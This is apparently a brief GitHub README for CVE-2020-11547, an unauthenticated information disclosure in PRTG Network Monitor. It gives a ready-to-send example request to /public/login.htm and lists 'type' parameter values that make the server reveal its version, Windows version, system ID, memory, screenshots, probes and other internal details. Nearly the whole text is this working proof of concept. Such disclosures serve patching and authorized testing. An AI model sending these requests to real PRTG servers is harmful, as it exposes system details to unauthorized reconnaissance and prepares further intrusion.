 # PRTG-Network-Monitor-Information-Disclosure - CVE-2020-11547

Remote unauthenticated user can craft an HTTP request in /public/login.htm or /index.htm by providing the 'type' parameter.

Example: http://127.0.0.1/public/login.htm?type=probes

replace probes by any of the following to get diferent info

- version
- cpuload
- dnsname
- serverhttpurl
- windowsversion
- systemid
- treestat
- memory
- requests
- screenshot
- lastsync
- probes
- warnings
